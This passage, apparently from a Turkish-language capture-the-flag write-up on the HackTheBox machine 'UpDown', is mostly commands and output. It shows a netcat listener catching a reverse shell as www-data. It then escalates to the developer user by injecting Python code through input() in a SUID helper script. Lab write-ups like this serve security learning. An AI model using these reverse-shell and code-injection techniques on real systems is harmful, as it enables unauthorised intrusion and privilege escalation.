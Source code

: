 ```
```

Tekrar bu dosyayı upload ediyorum ve web sitesi üzerinden tetikliyorum. ve shell…

```bash
root@acivik:~/ctfs/UpDown# nc -lnvp 1010
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1010
Ncat: Listening on 0.0.0.0:1010
Ncat: Connection from 10.10.11.177.
Ncat: Connection from 10.10.11.177:38180.
bash: cannot set terminal process group (909): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/tmp$
```

# <span style="color:#AA0E1C"><b># PrivEsc: www-data → developer</b></span>

home dizini altında `developer` kullanıcısını görüyorum ve içerisinde `dev` klasörü.

```bash
www-data@updown:/home/developer/dev$ ls -la
ls -la
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22 15:45 .
drwxr-xr-x 6 developer developer  4096 Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22 15:45 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22 15:45 siteisup_test.py

www-data@updown:/home/developer/dev$ cat siteisup_test.py
cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
www-data@updown:/home/developer/dev$
```

Suid bitine sahip çalıştırılabilir bir dosya bulunuyor. Suid biti dosyanın sahibi kimse onun yetkilerinde çalıştırmamıza yarar. 

Python dosyasına baktığımızda da kullanıcıdan input aldığını ve request gönderdiğini görüyoruz.

Bu noktada input() fonksiyonu bizim işimize yarıyor. Bu sayede komut çalıştırmayı deneyebiliriz.

```bash
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
[...]
```
